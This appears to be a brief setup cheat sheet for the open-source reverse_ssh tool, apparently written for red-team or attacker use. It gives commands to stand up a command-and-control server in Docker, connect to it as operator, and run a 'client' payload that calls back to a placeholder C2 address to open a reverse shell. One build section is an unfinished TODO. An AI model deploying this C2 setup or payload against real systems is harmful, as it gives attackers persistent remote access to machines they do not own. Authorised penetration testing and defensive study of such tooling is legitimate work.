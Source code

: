 # Setup

## Generate SSH Key

```
$ ssh-keygen -qt rsa -b 4096 -f id_rsa -C '' -N ''
```

## Server

### Docker Setup

```
$ docker run -p 3232:2222 -e EXTERNAL_ADDRESS=<C2_IP>:3232 -e SEED_AUTHORIZED_KEYS="$(cat ~/.ssh/id_ed25519.pub)" -v ./data:/data reversessh/reverse_ssh
```

### Compile From Source

TODO: Fill in this info

```
$ git clone https://github.com/NHAS/reverse_ssh.git

$ server
```

## Operator

```
$ ssh -i /path/to/ssh_key -p 3232 <C2_IP>
```

## Payload

```
> client -d <C2_IP>:3232
```

---
## References

### Source Repositories

- [NHAS: Reverse SSH](https://github.com/NHAS/reverse_ssh)